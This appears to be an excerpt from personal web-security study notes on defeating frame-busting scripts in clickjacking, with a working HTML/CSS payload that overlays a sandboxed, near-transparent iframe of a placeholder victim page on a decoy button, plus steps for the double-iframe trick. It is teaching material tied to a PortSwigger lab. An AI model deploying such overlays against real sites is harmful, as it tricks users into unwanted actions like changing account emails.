 developers commonly make the mistake of comparing only the top frame to the current frame when trying to detect whether the protected page is framed by a malicious page. If the top frame has the same origin as the framed page they allow it, code ex:
```javascript
if (top.location == self.location){
// Allow framing.
} 
else{
// Disallow framing.
}
```
## If that is the case, we use one of the following:
### 1- HTML 5 Sandbox Attribute:
```html
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   div {
       position:absolute;
       top:470px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://vulnerable.com/email?email=asd@asd.asd"></iframe>
```

### 2-the double `iframe` trick
1. search for a location on the victim site that allows you to embed custom `iframes` like (social media sites allows users to share links on their profile, features to embed videos, audio, images, web page builders)
2. construct a page that frames the victim’s targeted functionality
3. Then place the entire page in an `iframe` hosted by the victim site
![[Gitbook/Media/Web AppSec Images/Pasted image 20240206094104.png]]
This way, both` top.location` and `self.location` point to `victim.com`, The frame-busting code would determine that the innermost victim.com page is framed by another victim.com page within its domain



> **Check out this [lab](https://portswigger.net/web-security/clickjacking/lab-frame-buster-script) from PortsWigger to practice**
## Real world scenario and report
